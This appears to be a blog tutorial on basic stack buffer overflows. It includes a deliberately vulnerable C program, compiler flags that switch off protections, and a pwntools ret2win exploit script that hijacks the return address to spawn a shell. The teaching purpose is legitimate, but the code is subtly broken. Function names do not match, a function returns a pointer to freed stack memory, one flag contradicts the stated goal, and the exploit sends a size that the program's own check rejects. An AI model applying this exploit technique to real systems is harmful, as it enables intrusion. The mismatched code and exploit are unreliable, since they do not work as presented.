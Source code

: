 +++
author = "Emily Miller"
title = "How to: Basic buffer overflows without stack protections"
date = "2025-02-10"
description = """This is a simple guide on how to perform basic buffer
overflows, including an example exploit script."""
tags = [  ]
+++

Kind of starting a little basic, but what is a buffer overflow? Effectively,
when the program is expecting a certain amount of data to be written, and more
data than that gets written, *overflowing* the buffer. When done on the stack
(the most basic case), this is often called *stack smashing* (as seen in the amazing stack canary message "**** stack smashing detected ****").

For instance, if our memory looks something like below:

`| Other function memory (variables, etc.) | Buffer | More function memory |
return address |`

What we can do to gain control flow is write through that Buffer and the
function memory and overwrite the return address. Often, this occurs in ret2win
style challenges, where we need to return to some win function.

Lets take the following code as our example:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

The example above looks a little convoluted, and I've done that because that's
what real buffer overflows look like. 99% of the time, these come from the
programmer writing some piece of code to do some small task (in this case
wrapping some string in quotes), and forgetting to account for issues that may
arise with how things interact with it. The more experienced among you may notice
a second vulnerability lurking in this program, but we'll cover that another
time.

Note if you want to follow at home, you will need to compile with stack
protections disabled, which can be done like `gcc -fno-stack-protector -z
noexecstack -no-pie -o vulnerable_program vulnerable_program.c` (Take a moment
to notice just how many things we're having to disable in order to make this
work --- this is something that rarely happens in modern programs, which is why
more advanced exploitation techniques are usually needed).
`

Here, we can use a very simple exploit to attack it:

```python
from pwn import *

# Hacker defined parameters
process_name = "./vulnerable_program"
offset = 64 # Placeholder, you'll need to find this using GDB
win_address = 0x123456 # You get this from GDB as well

# Calculate our payload
payload = b"A"*offset + p64(win_address) # <-- standard buffer overflow payload

# Exploit
p = process(process_name)
p.sendline(bytes(str(offset+8), "utf-8"))
p.sendline(payload)

# Reap the benefits
data = p.interactive()
```
Another important thing to keep in mind is those parameters need to be
determined by you, the attacker. There are ways of getting around this,
including automatic static analysis of the binary (some of which can be done in
`pwntools`, albeit with some reliability issues) and fuzzing, but that's a topic
to explore on your own as you gain more exploit development experience.
